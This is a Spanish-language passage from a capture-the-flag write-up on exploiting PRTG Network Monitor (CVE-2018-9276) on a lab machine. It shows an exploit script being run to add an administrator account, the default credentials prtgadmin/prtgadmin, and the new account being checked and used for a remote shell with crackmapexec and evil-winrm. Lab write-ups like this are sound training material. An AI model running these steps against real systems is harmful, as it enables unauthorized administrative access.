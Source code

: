 ## Explotación
 
Si ahora usamos el **exploit** que encontramos antes nos creará un usuario con privilegios de **administrador**:

```bash wrap=false
❯ ./rce.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=e0NDNUMxMTJCLTU4NzEtNDMxRC05MTVELTQ0RjczMEI0RDMzQn0%3D; Path=/; HttpOnly"

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 
```

Vamos a comprobarlo:

```bash wrap=false
❯ crackmapexec winrm 10.10.10.152 -u 'pentest' -p 'P3nT3st!'
SMB         10.10.10.152    5985   NETMON           [*] Windows 10 / Server 2016 Build 14393 (name:NETMON) (domain:netmon)
HTTP        10.10.10.152    5985   NETMON           [*] http://10.10.10.152:5985/wsman
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.10.152    5985   NETMON           [+] netmon\pentest:P3nT3st! (Pwn3d!)
❯ evil-winrm -i 10.10.10.152 -u 'pentest' -p 'P3nT3st!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
```